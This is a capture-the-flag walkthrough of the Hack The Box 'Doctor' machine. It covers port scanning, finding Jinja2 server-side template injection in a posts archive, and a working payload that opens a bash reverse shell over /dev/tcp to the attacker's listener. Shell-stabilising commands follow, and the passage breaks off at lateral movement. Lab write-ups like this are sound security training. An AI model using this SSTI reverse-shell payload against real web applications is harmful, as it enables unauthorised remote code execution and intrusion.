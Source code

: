 # Hack the box
## Doctor writeup

### Enumeartion / Recon

+ nmap port scan - ```nmap -sC -sV -oN nmap.txt 10.10.10.209```
```bash
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 59:4d:4e:c2:d8:cf:da:9d:a8:c8:d0:fd:99:a8:46:17 (RSA)
|   256 7f:f3:dc:fb:2d:af:cb:ff:99:34:ac:e0:f8:00:1e:47 (ECDSA)
|_  256 53:0e:96:6b:9c:e9:c1:a1:70:51:6c:2d:ce:7b:43:e8 (ED25519)
80/tcp   open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Doctor
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.41 (Ubuntu)
8089/tcp open  ssl/unknown
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Issuer: commonName=SplunkCommonCA/organizationName=Splunk/stateOrProvinceName=CA/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-09-06T15:57:27
| Not valid after:  2023-09-06T15:57:27
| MD5:   db23:4e5c:546d:8895:0f5f:8f42:5e90:6787
|_SHA-1: 7ec9:1bb7:343f:f7f6:bdd7:d015:d720:6f6f:19e2:098b
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
+ Open ports are
  + ssh on port 22
  + http on port 80
  + splunk on port 8089

+ Nothing interesting found on the website, looks like a static website, checking hostnames
+ Found a hostname ```doctors.htb``` on the website, adding to ```/etc/hosts``` file
+ Visiting doctors.htb sends us to another page
![image](https://github.com/brownPineapple/hackthebox/assets/30342446/cde2e474-48ac-406a-aa38-107b86c7b564)
+ We can register and it creates an account for 20 minutes
+ Checking the source and see something strange - _<!--archive still under beta testing<a class="nav-item nav-link" href="/archive">Archive</a>-->_
+ We can create posts on this website and it shows us the posts on the homepage
+ Checking /archive directory but nothing interesting
+ Checking the source of /archive and found something interesting, it has xml output of the posts that we create
+ TRYING SSTI hacktricks injection ```{{ 7*7 }}``` and we get 49 on the archive source ```view-source:http://doctors.htb/archive```

![image](https://github.com/brownPineapple/hackthebox/assets/30342446/58379fa5-5355-4014-aec1-113cebd7ae90)

+ Testing multiple Server Side Template Injection from https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti
+ **SUCCESS** We have successful SSTI
![image](https://github.com/brownPineapple/hackthebox/assets/30342446/7da4af12-c81a-428f-81bd-7caedaf941ff)

### Initial Foothold

+ Checking for reverse shell payloads on PayloadAllTheThings SSTI -
+ The one that worked was - ```{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("bash -c 'bash -i >& /dev/tcp/<ip>/4444 0>&1'").read()}}{%endif%}{%endfor%}```
+ Starting netcat listener - ```nc -lvnp 4444``` and getting reverse shell as web@doctor
![image](https://github.com/brownPineapple/hackthebox/assets/30342446/2e42813a-dcba-415b-bdbf-b15d7951a808)
+ ```/home``` directory has another user shaun with user.txt file
+ We are part of the admin group, we can check audit logs for passwords
  ```bash
  id
  uid=1001(web) gid=1001(web) groups=1001(web),4(adm)
  ```

### Lateral movement

+ To get user we need access to shaun user
+ Making the shell stable
  1. run this command ```python3 -c 'import pty;pty.spawn("/bin/bash")'``` on victim machine
  2. if the above doesn't work try - ```script -qc /bin/bash /dev/null```
  3. Do **ctrl+z** to background the process
  4. On your host machine in the same session do ```stty raw -echo;fg``` + Enter + Enter
  5. Now you have a stable shell
![image](https://github.com/brownPineapple/hackthebox/assets/30342446/69c9d560-27e9-415b-9dfb-890b9f950dd6)


